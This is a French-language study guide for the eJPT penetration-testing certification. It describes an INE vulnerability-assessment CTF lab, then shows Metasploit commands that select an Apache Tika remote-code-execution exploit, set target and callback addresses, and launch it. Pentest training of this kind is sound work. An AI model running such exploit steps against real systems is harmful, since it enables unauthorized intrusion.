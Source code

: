 ### Lab INE : Vulnerability Assessment CTF 1

Ce lab d'INE vous permet de mettre en pratique l'évaluation des vulnérabilités dans un environnement contrôlé. Vous y apprendrez à :
- Identifier les services vulnérables
- Utiliser des outils automatisés pour détecter les vulnérabilités
- Analyser manuellement les résultats pour confirmer les failles
- Prioriser les vulnérabilités à exploiter

Les compétences acquises dans ce lab sont directement applicables à l'examen eJPT, où vous devrez rapidement identifier les vulnérabilités exploitables.

**En clair, pour un débutant** : Ce lab vous entraîne à repérer efficacement les faiblesses des systèmes informatiques, compétence essentielle pour savoir où concentrer vos efforts lors de l'examen.

## 7. Exploitation

L'exploitation est le cœur du test d'intrusion, où vous utilisez les vulnérabilités identifiées pour obtenir un accès aux systèmes cibles. Pour l'eJPT, vous devrez maîtriser plusieurs outils d'exploitation, avec un focus particulier sur Metasploit.

### Metasploit Framework

Metasploit est l'outil central pour l'exploitation dans l'eJPT. Voici comment l'utiliser efficacement :

```bash
# Lancer Metasploit
sudo msfconsole

# Rechercher un exploit spécifique
msf > search type:exploit platform:windows apache

# Utiliser un exploit
msf > use exploit/windows/http/apache_tika_rce

# Configurer les options de l'exploit
msf > show options
msf > set RHOSTS 10.10.10.15
msf > set LHOST 10.10.14.5  # Votre adresse IP sur le VPN
msf > set LPORT 4444

# Vérifier que tout est configuré correctement
msf > check

# Lancer l'exploit
msf > exploit
```

**En clair, pour un débutant** : Metasploit est comme une boîte à outils spécialisée pour les hackers. Vous choisissez l'outil adapté à la faille que vous avez trouvée, vous le configurez avec les bonnes adresses, puis vous l'activez pour obtenir un accès.
